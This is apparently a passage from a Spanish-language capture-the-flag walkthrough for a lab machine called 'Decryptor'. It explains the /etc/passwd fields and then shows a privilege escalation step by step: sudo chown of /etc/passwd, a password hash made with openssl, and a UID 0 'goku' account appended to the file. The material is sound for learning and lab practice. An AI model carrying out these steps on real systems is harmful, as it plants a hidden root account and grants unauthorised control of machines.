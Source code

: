 Dentro del archivo podemos encontrar lineas de información de los usuarios del sistema de la siguiente forma:

```bash
chiquero:x:1001:1001:Chiquero User:/home/chiquero:/bin/bash
```
Es importante entender cómo se interpreta esta línea, así que vamos a detallarla un poco.

* **chiquero:** Nombre del usuario.
* **x:** Indicador de que la contraseña está en /etc/shadow.
* **1001:** UID del usuario chiquero.
* **1001:** GID del grupo principal de chiquero.
* **Chiquero User:** Información adicional sobre el usuario.
* **/home/chiquero:** Directorio personal del usuario.
* **/bin/bash:** Intérprete de comandos utilizado por el usuario.

Ahora con esto super claro, observemos la linea de root.

```bash
root:x:0:0:root:/root:/usr/bin/zsh
```
El UID y GID de root es 0.

Entonces con acceso de escritura a /etc/passwd, el usuario `chiquero` podría añadir una nueva cuenta de usuario con privilegios de `root` solo agregando una nueva entrada al final del archivo para crear una cuenta de usuario con UID 0, que es el UID de `root`.

Vamos a hacerlo!!!

><span style="color:Cyan">! Escalada de Privilegios </span>

Vamos a cambiar de propietario el archivo ``/etc/passwd` para que sea nuestro usuario chiquero.

```bash
chiquero@Decryptor:/home/mario$ who
chiquero pts/0        2024-08-06 00:02 (192.168.1.11)
chiquero@Decryptor:/home/mario$ sudo /usr/bin/chown chiquero /etc/passwd
chiquero@Decryptor:/home/mario$ ls -la /etc/passwd
-rw-r--r-- 1 chiquero root 1290 May 21 07:56 /etc/passwd
```
Ahora podemos crear un usuario con permisos de root, pero necesitamos una contraseña cifrada para este usuario. Debemos generarla, ya que no puede ser en texto plano. Para esto, utilizaremos el comando `openssl`.`

```bash
chiquero@Decryptor:/home/mario$ openssl passwd goku123
$1$V3UaTZN4$SISwXiYffpXFLh8OJTqIu.
chiquero@Decryptor:/home/mario$ 
```
Utilizaremos la clave mas segura del mundo `goku123` y creamos el usuario `goku`.

```bash
chiquero@Decryptor:/home/mario$ echo 'goku:$1$V3UaTZN4$SISwXiYffpXFLh8OJTqIu.:0:0::/home/goku:/bin/bash' >> /etc/passwd
chiquero@Decryptor:/home/mario$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```